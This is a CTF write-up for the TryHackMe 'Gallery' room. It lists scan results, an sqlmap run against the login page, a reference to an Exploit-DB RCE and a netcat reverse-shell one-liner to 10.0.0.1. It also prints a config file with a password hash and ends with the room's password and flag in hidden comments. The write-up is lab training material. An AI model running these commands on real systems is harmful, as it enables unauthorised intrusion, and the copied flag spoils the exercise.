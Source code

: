 ```yaml
---
layout: post
title: THM Room - Gallery 
---
```


ROOM: [Gallery](https://tryhackme.com/room/gallery666)

# Nmap Scan

```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Simple Image Gallery System
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set

```

# Interesting findings ?
- Port 80800 interesting and Running Simple Image Gallery System

## Whats next : bruteforce directories and remember to check the source code: FAILED

```html
<!-- /.social-auth-links -->

      <!-- <p class="mb-1">
        <a href="forgot-password.html">I forgot my password</a>
      </p> -->
 ```


## Whats next : sqlmap the login page: FAILED

```bash

└─$ sqlmap -u http://10.10.52.84/gallery/login.php --form --batch --tamper=between --risk=3 --level=3

```

## Check the Exploit-Db for the CMS name there is an RCE
- [check here](https://www.exploit-db.com/exploits/50214)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```


```bash

<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"XXXXX");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"XXXXX");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```
- Login to the mysql database
- Get the admin hash

## Check /var/backup
- Login as mike
- Pwn the box
<!--- b3stpassw0rdbr0xx -->
<!--- THM{af05cd30bfed67849befd546ef} -->